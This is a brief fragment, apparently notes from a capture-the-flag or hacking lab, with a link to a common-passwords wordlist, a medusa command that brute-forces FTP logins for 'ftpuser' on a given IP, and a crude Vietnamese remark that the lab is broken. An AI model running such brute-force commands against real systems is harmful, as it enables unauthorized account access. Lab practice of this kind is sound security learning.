 https://raw.githubusercontent.com/noder-ss/my-wordlists/refs/heads/prod1/2020-200_most_used_passwords.txt


medusa -h 94.237.48.12 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
Lỗi moẹ cái lab rồi 
















